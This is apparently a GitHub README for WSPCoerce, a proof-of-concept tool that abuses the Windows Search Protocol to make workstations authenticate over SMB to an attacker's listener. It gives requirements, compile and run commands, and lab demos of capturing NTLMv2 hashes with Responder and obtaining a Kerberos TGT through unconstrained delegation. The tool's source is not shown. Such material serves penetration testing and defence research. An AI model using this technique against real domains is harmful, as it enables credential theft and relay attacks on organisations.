 # WSPCoerce

PoC to coerce authentication from Windows hosts using MS-WSP

## What is this?

It's a tool to interact with remote hosts using the Windows Search Protocol and coerce authentication. The target host will connect over SMB to the listener host using the machine account.

## What can I do with this?

- Relay the authentication from the target to another system (if SMB signing is disabled)
- Obtain the TGT of the target (if coercing to a system where unconstrained delegation is enabled)

## What are the requirements?

- Must be running in the context of a domain user (no specific privileges required on target system AFAIK)
- 445/TCP open on the target system
- 445/TCP open on the listener system
- Windows Search Service running on the target system

Note: The Windows Search Service is *NOT* enabled by default on Windows Server so in practice this attack is only effective against Windows workstations.

## How do I compile this?

```
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe WSPCoerce.cs
```

## How do I run this?

```
WSPCoerce.exe <target> <listener>
```

Notes:
- Can't use an IP address for the target
- Make sure to use a hostname or FQDN for the listener if you want to receive Kerberos auth

## Example demo 1 - Machine account NTLMv2 capture

Target: LABWS1
Listener: Kali box

Search request sent to LABWS1:
![](demo/wsp_2.png)

NTLMv2 captured on Responder:
![](demo/wsp_labws1_ntlmv2.png)

## Example demo 2 - Coercion to unconstrained delegation

Target: LABWS1
Listener: LABSRV1

Search request sent to LABWS1:
![](demo/wsp_1.png)

Packet capture of the request:
![](demo/wsp_wireshark.png)

Kerberos TGT on listener (LABSRV1):
![](demo/wsp_tgt_1.png)


